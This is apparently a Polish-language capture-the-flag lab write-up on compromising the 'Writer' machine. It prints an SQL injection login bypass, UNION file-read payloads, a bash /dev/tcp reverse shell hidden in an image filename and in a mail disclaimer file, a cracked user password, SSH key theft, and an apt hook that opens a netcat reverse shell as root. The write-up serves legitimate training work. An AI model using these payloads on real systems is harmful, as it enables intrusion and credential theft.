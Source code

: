 # ZTPPt

## Utworzenie połączenia z maszyną
Pobrany został plik konfiguracyjny OpenVPN na maszynę wirtualną z zainstalowanym systemem Kali Linux. Komenda do wywołania połaczenia VPN:
```
sudo openvpn lab.vpn
```

## Przebieg laboratorium
* Pierwszym krokiem było wykorzystanie oprogramowania nmap w celu rekonensanu aktywnego, użyto w tym celu komendy:
```
sudo nmap -sS -sV -sC <ip_address>
- sS - TCP SYN skan
- sV - sprawdzenie możliwosci występowania wersji oprogramowania na otwartym porcie
- sC - wykonanie podstawowych skryptów
```
Wynik skanowania

![Wynik skanowania](https://user-images.githubusercontent.com/52716721/141511219-992c3762-5266-45f4-82fd-62ae04e1c934.png)

* Biorąc pod uwagę otwarty port 80 oraz tytuł odpowiedzi z serwera HTTP, kolejne kroki będą prowadzone na stronie WWW, prezentującej się następująco
![Stronawww](https://user-images.githubusercontent.com/52716721/141511808-81ba4197-1cfd-4d19-9234-3433a15dec20.png)

* W celu znalezienia interesujących podstron, wykorzystane zostało wbudowane narzędzie wfuzz z atakiem słownikowym:
```
wfuzz -w /usr/share/wfuzz/wordlist/general/megabeast.txt -u http://10.10.11.101/FUZZ --hc 404
- w - ścieżka do słownika z podstronami
- u - adres strony z dodatkiem FUZZ w celu skanowania
- hc 404 - pominięcie podstron z odpowiedzią 404
```
Wynik skanowania wfuzz

![wfuzz](https://user-images.githubusercontent.com/52716721/141513351-5ff7381f-e698-43fc-89c7-81208a4f3e6c.png)

* Na stronie dostępny jest panel logowania administratora, pierwszym krokiem zostało sprawdzenie czy zadziała SQLi w tym celu użyto w polu loginu frazy `username ' or '1'='1`. Logowanie powiodło się, następnie wykorzystano sqlmap w celu sprawdzenia jaka jest skonfigurowana baza danych i użyto danych z formularza do logowania `uname=username'+or+'1'='1&password=test`.
Wynik prezentuje się następująco:

![image](https://user-images.githubusercontent.com/52716721/143478884-83138642-c297-49ad-b8b9-b0a13311ad73.png)

* Kolejnym krokiem była próba odczytania plików znajdujących się na maszynie, wykorzystano do tego program Burp Suite i payload `uname=username' UNION ALL SELECT NULL,load_file("/etc/apache2/sites-enabled/000-default.conf"),NULL,NULL,NULL,NULL-- -&password=test`. Odczyt pliku 000-default spowodowany jest występującym serwisem Apache, w podanym pliku konfiguruje się wirtualny host dla danej domeny, odczyt z folderu sites-avaliable mógłby nie zadziałać gdyż musi występować symlink w folderze enabled.
![image](https://user-images.githubusercontent.com/52716721/143478354-b7a9d660-18e8-4735-8002-3e3601dabfc1.png)

* Następnie odczytany został plik writer.wsgi (`uname=username' UNION ALL SELECT NULL,load_file("/var/www/writer.htb/writer.wsgi"),NULL,NULL,NULL,NULL-- -&password=test`), w którym importowany jest plik `__init__.py`.
![image](https://user-images.githubusercontent.com/52716721/143478809-566682a5-ca8f-4eb5-a72b-a2b08fc40f60.png)
![image](https://user-images.githubusercontent.com/52716721/143479464-bab8af2c-5c28-4e29-bc21-90d08b245957.png)
![image](https://user-images.githubusercontent.com/52716721/143479566-63bc8a3a-1baa-404d-bb12-aa454b7ced0a.png)

* Okazuje się, że aplikacja napisana została we Flask'u, dodając Stories poprzez panel admina, można podać dodatkowy parametr przy pomocy Burp'a `image_url`, który następnie jest przenoszony oraz otwierany co udostępnia możliwość stworzenia reverse shella. Stworzony został złośliwy plik w formacie jpg, zawierający w nazwie payload w base64 `echo -n '/bin/bash -c "/bin/bash -i >& /dev/tcp/<ip>/9091 0>&1"' | base64`. W parametrze image_url podana została ścieżka do pliku, który po zapisaniu znajduje się w folderze static `file:///var/www/writer.htb/writer/static/img/<plik>`. Wynik prezentuje się poniżej.
![image](https://user-images.githubusercontent.com/52716721/141533167-0eb874b8-da4b-470f-af05-8a3f6688f1bd.png)
![image](https://user-images.githubusercontent.com/52716721/141533062-d4f0b4b6-4639-486f-bd20-947c012012d5.png)

* Dzięki sqlmap otrzymano nazwę serwisu bazodanowego MariaDB, po udanym przejęciu sesji www-data, odnaleziony został plik konfiguracyjny mariadb.cnf, gdzie podane zostały dane do zalogowania w bazie deweloperskiej.
![image](https://user-images.githubusercontent.com/52716721/141533938-7c74d7bb-2572-46cb-9c1b-6d3e69b38044.png)

* Po udanym połączeniu z bazą odczytane zostały możliwe tabele, najciekawszą z nazwy jest auth_user, w niej znaleziony został użytkownik kyle wraz z zahashowanym hasłem.
![image](https://user-images.githubusercontent.com/52716721/143593639-a6682460-2692-498d-8c02-b000b1827bf3.png)
![image](https://user-images.githubusercontent.com/52716721/143593570-4da314d9-aa10-49db-b95c-724f8ad3a44f.png)

* W celu odczytania hasła wykorzystany został atak słownikowy z plikiem rockyou znajdującym się pod linkiem https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz oraz program hashcat, który ujawnił hasło marcoantonio
![image](https://user-images.githubusercontent.com/52716721/143597265-0dc3a738-8d06-4216-8612-f284a6a84b5a.png)

* Następnie sprawdzony został użytkownik czy jest możliwość połączenia przez ssh. Wynikiem był dostęp do jednego z użytkowników systemu.

![image](https://user-images.githubusercontent.com/52716721/144602561-4c26a048-5eaa-4fde-b787-32728e26c41a.png)

* Flaga dla kyle.
![image](https://user-images.githubusercontent.com/52716721/145611859-ed9da537-bfe2-4fe0-8208-99f5d2c71ac3.png)

* Użytkownik należy do niestandardowej grupy filter, która jest odpowiedzialna za pliki prezentujące się na poniższym zrzucie.
![image](https://user-images.githubusercontent.com/52716721/143599339-fb5de575-7cf1-4538-8bd8-96eab3fa917c.png)

* Jako iż plik disclaimer jest wykorzystywany do podpisywania maili, dodano w nim reverse shell taki jak w przypadku pliku na stronie internetowej oraz przesłano maila z wykorzystaniem skryptu w pythonie. W folderze disclaimer znaleziony został adres, który można wykorzystać właśnie do przesłania maila.
![image](https://user-images.githubusercontent.com/52716721/144605156-a1f146cf-b493-4508-95da-f531e2ffb9d5.png)
![image](https://user-images.githubusercontent.com/52716721/144605209-7044ad3a-a873-4c82-839c-72419f0c3088.png)

![image](https://user-images.githubusercontent.com/52716721/144605193-ac75e000-499d-4180-932f-8f7f1cda4ca0.png)
* W czasie wysyłania maila, nasłuchiwany był port 9091 podany w reverse shell w pliku disclaimer, dzięki czemu uzyskany został użytkownik john. 

![image](https://user-images.githubusercontent.com/52716721/144605478-496530d0-d519-4d03-b875-6a1f7427ec16.png)

* Aby połączyć się do niego poprzez ssh, skopiowany został klucz prywatny z folderu `.ssh` użytkownika.
![image](https://user-images.githubusercontent.com/52716721/144605507-4d6e177b-6f35-4a40-b73a-b2c3f1724f88.png)

* Połączenie ssh prezentuje się następująco.
![image](https://user-images.githubusercontent.com/52716721/144605856-11d72409-960a-4db4-b594-a08a2f4a88dd.png)

* Użytkownik john również miał niestandardową grupę management i posiadał prawa do folderu apt.conf.d
![image](https://user-images.githubusercontent.com/52716721/144606016-8f5f427c-607b-4b3c-b29d-79cced652c14.png)
![image](https://user-images.githubusercontent.com/52716721/144606001-356798db-63d1-410d-80f7-bea6f41b5354.png)

* Znaleziona została możliwość eskalacji uprawnień z wykorzystaniem apt https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/ w tym celu należy przejść do podanego folderu i wykonać payload tworzący reverse shell `echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 4444 >/tmp/f"};' > pwn`. W innym oknie nasłuchiwany został port 4444, dzięki czemu uzyskano dostęp do roota. Wynik prezentuje się następująco:
![image](https://user-images.githubusercontent.com/52716721/144607092-e7cf791d-4725-4600-8777-a2528130858d.png)

* Ostatnim krokiem było odczytanie flagi z pliku root.txt

![image](https://user-images.githubusercontent.com/52716721/145611973-f3a44ac1-7c23-436d-ac8f-1599ba462681.png)
